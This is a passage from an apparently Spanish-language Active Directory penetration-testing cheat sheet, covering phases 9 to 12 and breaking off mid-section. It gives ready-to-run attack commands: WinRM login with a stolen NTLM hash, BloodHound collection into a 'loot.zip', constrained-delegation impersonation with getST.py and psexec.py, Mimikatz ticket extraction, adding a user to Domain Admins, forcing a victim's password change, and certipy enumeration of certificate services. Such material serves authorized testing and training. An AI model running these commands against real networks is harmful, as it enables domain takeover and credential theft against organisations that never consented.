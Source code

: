 WinRM:

```bash
evil-winrm -i <IP> -u usuario -p contraseña
# o con hash
-H <NTLMHASH>
```

### Fase 9: BloodHound

Recolectar desde Windows:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -ZipFileName loot.zip
```

Desde Kali:

```bash
bloodhound-python -u usuario -p contraseña -d dominio.local -dc-ip <IP> --collection ALL
```

### Fase 10: Abuso de Delegaciones

Constrained Delegation:

```bash
getST.py -spn cifs/servidor.dominio.local -impersonate objetivo dominio.local/usuario:pass -dc-ip <IP>
psexec.py -k -no-pass dominio.local/objetivo@servidor
```

Unconstrained Delegation:

* Usar Mimikatz (`sekurlsa::tickets`) para extraer TGT.

### Fase 11: Abuso de ACLs

Añadir miembro a grupo:

```bash
net rpc group addmem "Domain Admins" usuario -S <IP> -U atacante%contraseña
```

Cambiar contraseña de otra cuenta:

```bash
net rpc changepassword victima -U atacante%pass -S <IP>
```

### Fase 12: Ataques a ADCS

Enumerar:

```bash
certipy find -u usuario -p contraseña -target <IP> -dc-ip <IP>
```

Solicitar certificado abusando de plantilla vulnerable:
